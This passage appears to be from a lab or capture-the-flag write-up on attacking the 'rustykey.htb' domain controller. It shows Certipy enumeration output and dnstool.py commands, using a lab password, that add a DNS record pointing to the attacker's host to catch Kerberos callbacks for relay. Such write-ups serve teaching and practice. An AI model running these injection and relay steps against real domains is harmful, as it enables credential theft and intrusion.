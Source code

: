 
This one's a staple. I'll later start using ldeep which will also enumerate these templates if they're available.


```python
!certipy find -dc-ip 10.129.232.127 -no-pass -k -ns 10.129.232.127 -target dc.rustykey.htb -ldap-scheme ldap -ldap-simple-auth -stdout 
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 0 certificate templates
    [*] Finding certificate authorities
    [*] Found 0 certificate authorities
    [*] Found 0 enabled certificate templates
    [*] Finding issuance policies
    [*] Found 1 issuance policy
    [*] Found 0 OIDs linked to templates
    [*] Enumeration output:
    Certificate Authorities                 : [!] Could not find any CAs
    Certificate Templates                   : [!] Could not find any certificate templates


### Rabbit hole of KerbRelayX
This didn't go anywhere, but it is a super interesting application of attempting to force a kerberos callback to a listener to steal credentials if you have a valid agent that can phone back home. Because of SMBSigning throughout this challenge, NTLMRelay/KerbRelay do not work; but it was a fun exercise so I'm leaving these notes here because I did get phones home at least..

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    RootDNSServers
    rustykey.htb
[-] Found 1 forest DNS zones:
    _msdcs.rustykey.htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones-dn
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
    DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[-] Found 1 forest DNS zones:
    DC=_msdcs.rustykey.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=rustykey,DC=htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action query -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record it-computer3
DC=it-computer3,DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[+] Record entry:
```